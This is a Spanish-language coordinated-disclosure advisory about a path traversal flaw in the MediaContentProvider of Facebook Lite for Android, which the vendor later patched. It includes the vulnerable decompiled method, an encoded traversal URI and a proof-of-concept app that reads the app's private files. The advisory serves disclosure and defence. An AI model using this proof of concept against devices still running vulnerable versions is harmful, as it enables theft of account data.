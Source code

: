 
# Vulnerabilidad en la aplicación Facebook Lite para Android


## 1. Información del reporte

**Título:** Vulnerabilidad en la aplicación Facebook Lite para Android

**Reporte ID:** STIC-2015-2012

**Reporte URL:** [http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic](http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic)

**Fecha de publicación:** 2015-12-01

**Fecha de última actualización:** 2016-02-2

**Fabricantes contactados:** Facebook

**Modo de publicación:** Coordinado



## 2. Información de vulnerabilidades

**Clase:**  Improper Limitation of a Pathname to a Restricted Directory [[http://cwe.mitre.org/data/definitions/22.html](http://cwe.mitre.org/data/definitions/22.html)]

**Impacto:** Perdida de datos

**Remotamente explotable:** Si

**Localmente explotable:** Si

**Identificador CVE:** N/A



## 3. Descripción de vulnerabilidad

Facebook Lite es una versión más liviana de la aplicación de la red social Facebook, diseñada para aquellos países donde las redes inalámbricas son lentas o para descargar en dispositivos que no tienen capacidad para soportar la versión original de la aplicación.

La aplicación, que cuenta con entre 50 y 100 millones de descargas (a enero de 2016), tiene una vulnerabilidad de Path Traversal que permite a otras aplicaciones acceder a archivos guardados en el almacenamiento interno de la aplicación. Esto permitiría a una aplicación maliciosa, sin necesidad de solicitar ningún permiso, podría, de este modo, tomar completo control de la cuenta de Facebook instalada en el dispositivo de la víctima.


## 4. Paquetes vulnerables

* Facebook Lite version 1.15.0.137.302 o anteriores

## 5. Información y soluciones del fabricante

Facebook reconoció y solucionó la vulnerabilidad en la versión 1.16.0.155.350 de la aplicación, publicada el 28 de Enero, 2016..


## 6. Créditos

Las vulnerabilidades fueron descubiertas e investigadas por Joaquín Manuel Rinaudo. La publicación de este reporte fue coordinada por Programa Seguridad en TIC. 

## 7. Descripción técnica

La aplicación exporta un provider llamado MediaContentProvider vulnerable a Path Traversal. Al llamar al método openFile de dicho ContentProvider, la aplicación obtiene el último segmento directamente de la URI, que es controlada por el atacante y puede apuntar a una ruta relativa a cualquier archivo de forma codificada.

El siguiente método vulnerable es de la clase _com.facebook.lite.photo.MediaContentProvider_.

```
    public ParcelFileDescriptor openFile(Uri r5_Uri, String r6_String) {
        new StringBuilder("photo/called with uri: ").append(r5_Uri);
        if (this.a.match(r5_Uri) == 1) {
            File r0_File = new File(getContext().getFilesDir(), r5_Uri.getLastPathSegment());
            if (!r0_File.exists()) {
                try {
                    r0_File.createNewFile();
                } catch (IOException e) {
                    Log.e("MediaContentProvider", "photo/create new file failed", e);
                }
            }
            return ParcelFileDescriptor.open(r0_File, 805306368);
        } else {
            new StringBuilder("photo/unsupported uri: ").append(r5_Uri);
            throw new FileNotFoundException(new StringBuilder("Unsupported uri: ").append(r5_Uri.toString()).toString());
        }
    }


```


Por ejemplo, cuando un atacante haciendo un pedido a la URI _content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml_, el último segmento se traduce a _../shared_prefs/rti.mqtt.ids.xml_. Esto permitiría que dicho archivo, que reside en la memoria interna de la aplicación, sea leido por una aplicación maliciosa.

El POC provisto muestra como cualquier aplicación puede leer un archivo interno de Facebook Lite: 

```
  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Uri uriCustom = Uri
        .parse("content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml");
    InputStream fileStream;
    try {
      fileStream = getContentResolver().openInputStream(uriCustom);

      BufferedReader r = new BufferedReader(new InputStreamReader(
          fileStream));
      StringBuilder total = new StringBuilder();
      String line;
      while ((line = r.readLine()) != null) {
        total.append(line);
      }

      fileStream.close();
      Log.d("DEBUG", "string is " + total.toString());
    TextView text = (TextView)findViewById(R.id.file_content);
    text.setText(total);
    } catch (Exception e) {
      Log.d("DEBUG", Log.getStackTraceString(e));
    }
  }



```


## 8. Cronología del reporte

* **2015-11-20:** 
        Se enviaron detalles técnicos de las vulnerabilidades al fabricante.
        
* **2015-11-25:** 
        El fabricante aceptó el reporte y lo reenvió al equipo de desarrollo apropiado.
        
* **2015-12-3:**  consultó acerca del estado del issue.
        
* **2015-12-3:** 
        Dado que no se recibió ninguna respuesta,  preguntó acerca un tiempo estimado para una actualización que solucionase el problema.
        
* **2015-12-3:** 
        Dado que no se recibió ninguna respuesta,  preguntó acerca un tiempo estimado para una actualización que solucionase el problema.
        
* **2016-01-25:** 
        El fabricante aseguró que habían logrado solucionar la vulnerabilidad y que estaban trabajando para realizar una actualización.
        
* **2016-01-26:** 
        El fabricante notificó que lanzaría una actualización esa semana con el problema solucionado.
        
* **2016-02-2:** 
        El reporte fue publicado. 

## 9. Referencias



## 10. Acerca Fundación Dr. Manuel Sadosky

La Fundación Dr. Manuel Sadosky es una institución público privada cuyo objetivo es favorecer la articulación entre el sistema científico – tecnológico y la estructura productiva en todo lo referido a la temática de las Tecnologías de la Información y la Comunicación (TIC). Creada a través del Decreto Nro. 678/09 del Poder Ejecutivo Nacional, la Fundación es presidida por el ministro de Ciencia, Tecnología e Innovación Productiva. Sus vicepresidentes son los presidentes de las cámaras más importantes del sector TIC: CESSI (Cámara de Empresas de Software y Servicios Informáticos) y CICOMRA (Cámara de Informática y Comunicaciones de la República Argentina). Para más información visitar: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Derechos de autor

El contenido de este reporte tiene copyright (c) 2014 Fundación Sadosky y se publica bajo la licencia Creative Commons Attribution Non-Commercial Share-Alike 4.0: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)